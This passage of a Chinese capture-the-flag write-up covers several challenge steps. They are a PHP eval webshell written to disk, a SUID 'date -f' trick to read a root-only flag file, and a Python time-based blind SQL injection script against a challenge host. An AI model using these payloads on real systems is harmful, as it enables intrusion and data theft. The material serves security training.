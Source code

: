 ```bash
cmd=echo "<?php eval(\$_REQUEST[1]);?>" > a.php
```

因为默认的 shell 是 sh, 直接弹会有点问题, 所以要先把命令写到文件里, 然后用 bash 执行

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171434889.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171434330.png)

ffll444aaggg 文件权限是 700, 估计要提权

按照正常题目的思路先看一下 SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171436939.png)

发现 date 命令, 于是尝试用 date 读取 flag

```bash
date -f /ffll444aaggg
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171437267.png)

### Final round

name 处时间盲注

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171438253.png)

python 脚本

```python
import requests
import time

url = 'http://f4911839-e2b4-40ac-8bcc-4ccfe9d34b73.node4.buuoj.cn:81/comments.php'

dicts = r'{}_AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'

flag = 'flag{'

for i in range(6,99999):
    for s in dicts:
        time.sleep(0.3)
        payload = "if(ascii(substr((select(group_concat(text))from(wfy_comments)where(text)regexp('flag')),{},1))={},sleep(0.5),0)".format(i,ord(s))
        start_time = time.time()
        print(s)
        res = requests.post(url,data={'name': payload})
        stop_time = time.time()
        if stop_time - start_time >= 5:
            flag += s
            print('FOUND!!!',flag)
            break
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210171439736.png)